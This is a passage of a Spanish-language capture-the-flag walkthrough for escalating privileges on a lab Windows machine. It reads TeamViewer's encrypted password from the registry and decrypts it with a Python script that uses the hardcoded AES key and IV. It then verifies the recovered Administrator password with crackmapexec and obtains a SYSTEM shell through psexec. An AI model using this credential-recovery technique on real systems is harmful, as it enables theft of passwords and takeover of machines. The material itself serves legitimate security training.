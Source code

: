 ## Privilege Escalation {-}

### Rootear la maquina {-}

```powershell
whoami
systeminfo
whoami /priv
```

Aqui vemos que tenemos privilegios SeImpersonatePrivilege. Podriamos tratar de utilizar el JuicyPotato pero en este caso vamos a hacerlo de otra forma.
Si hacemos 

```powershell
tasklist
```

Vemos que hay un **TeamViewer_Service.exe**. 

```bash
locate teamviewer | grep "metasploit"
cat /usr/share/metasploit-framework/modules/post/windows/gather/credentials/teamviewer_passwords.rb
```

Como no vamos a utilizar metasploit nos creamos un script en python, pero primero miramos el script y recuperamos la version y la contraseña cifrada.

```powershell
cd C:\
cd PROGR~1
dir
cd PROGR~2
dir
cd TeamViewer
dir
#Output Version7

cd HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7
Get-itemproperty -Path .
(Get-itemproperty -Path .).SecurityPasswordAES
```

Aqui ya tenemos el cifrado de la contraseña. La copiamos y la modificamos para poder usarla desde el script de python

```bash
echo "255
155
28
115
214
107
206
49
172
65
62
174
19
27
78
79
88
47
108
226
209
225
243
218
126
141
55
107
38
57
78
91" | xargs | sed 's/ /, /g' | tr -d '\n' | xclip -sel clip
```

y creamos nuestro script

```python
#!/usr/bin/python3
from Crypto.Cipher = AES

key = b'\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00'
IV = b'\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xf2\x5e\xa8\xd7\x04'

decipher = AES.new(key, AES.MODE_CBC, IV)
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 19, 27, 78, 79, 88, 47, 108, 226, 209, 225, 243, 218, 126, 141, 55, 107, 38, 57, 78, 91])

plaintext = decipher.decrypt(ciphertext).decode()
print(plaintext)
```

Lanzamos el script y tenemos la contraseña del teamviewer.

contraseña encontrada es contraseña que tenemos que verificar.

```bash
crackmapexec smb 10.10.10.180 -u 'Administrator' -p '!R3m0te!'
```

Nos da un **(Pwn3d!)**.

Nos connectamos con psexec

```bash
psexec.py WORKGROUP/Administrator@10.10.10.180 cmd.exe
password: !R3m0te!

whoami nt authority\system
```

Ya somos administrador y podemos ver la flag.